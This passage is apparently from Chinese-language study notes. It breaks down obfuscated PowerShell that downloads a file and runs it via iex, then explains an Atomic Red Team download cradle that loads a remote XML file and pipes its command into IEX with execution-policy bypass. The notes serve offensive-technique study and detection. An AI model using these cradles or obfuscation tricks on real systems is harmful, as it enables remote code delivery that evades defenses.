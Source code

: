 
  - `Set-Variable J ((((Get-Variable igZ -ValueOn) | GM) | ? { $_.Name -like '*w*i*le' }).Name); (Get-Variable igZ -ValueOn).((ChildItem Variable:J).Value).Invoke((Get-Item Variable:/HJ1).Value, (GV gH).Value)`: `DownloadFile`

  - `&( ''.IsNormalized.ToString()[13, 15, 48] -Join '')( -Join ([Char[]](CAT -Enco 3 (GV gH).Value)))`: 
    
    - `( ''.IsNormalized.ToString()[13, 15, 48] -Join '')`: `(iex)`
    
    - `-Join ([Char[]](CAT -Enco 3 (GV gH).Value))`
    
      ![image-20231203223347151](http://cdn.ayusummer233.top/DailyNotes/202312032233186.png)
    
      - `CAT -Enco 3 (GV gH).Value`: 获取变量 `gH` 的值, 并使用 `CAT` 命令将其转换为 `UTF-8` 编码
        - `CAT` 是 `Get-Content` 的别名, 用于获取文件的内容
        - `-Enco 3`: 指定编码为 `UTF-8`
        - `(GV gH).Value`: 获取变量 `gH` 的值, 即 `Default_File_Path.ps1`
          - `GV` 是 `Get-Variable` 的别名, 用于获取变量的值
      - `[Char[]]`: 将字符串转换为字符数组
      - `-Join`: 连接字符数组
    - 整个连起来就是: `&((iex)(-Join ([Char[]](CAT -Enco 3 (GV gH).Value))))`
      - `iex` 是 `Invoke-Expression` 的别名, 用于执行字符串中的命令
      - `&` 是 `Invoke-Command` 的别名, 用于执行命令
      - 整个命令的作用是执行 `Default_File_Path.ps1` 中的命令

---

#### Xml.XmlDocument

`System.Xml.XmlDocument` 是 .NET 框架中的一个类，用于处理 XML 文档。它属于 `System.Xml` 命名空间，提供了对 XML 文档的创建、解析、编辑和保存等功能。`XmlDocument` 类实现了 W3C DOM（Document Object Model）标准，允许开发者以树结构方式操作 XML 数据。

```powershell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -exec bypass -noprofile "$Xml = (New-Object System.Xml.XmlDocument);$Xml.Load('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/test.xml');$Xml.command.a.execute | IEX"
```
- `-exec bypass`: 绕过 PowerShell 的执行策略。

  默认情况下 Windows 为了安全起见可能会限制运行某些脚本。使用 `-exec bypass` 可以绕过这些限制，允许运行没有签名的脚本。

- `-noprofile`: 不加载 PowerShell 的配置文件

`test.xml`:
```xml
<?xml version="1.0"?>
<command>
   <a>
      <execute>write-host -ForegroundColor Cyan "$(Get-Date -Format s) Download Cradle test success!`n"</execute>
   </a>
  </command>

```

```powershell
# 新建一个 XmlDocument 对象, 其作用是处理 XML 文档的 PowerShell 对象
$Xml = (New-Object System.Xml.XmlDocument);
# 使用 XmlDocument 对象的 Load 方法加载一个指定 URL 的 XML 文件
$Xml.Load('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/test.xml');
# 使用 XmlDocument 对象的 command.a.execute 属性获取 XML 文件中的命令; 然后使用 Invoke-Expression 执行该命令
$Xml.command.a.execute | IEX
```

---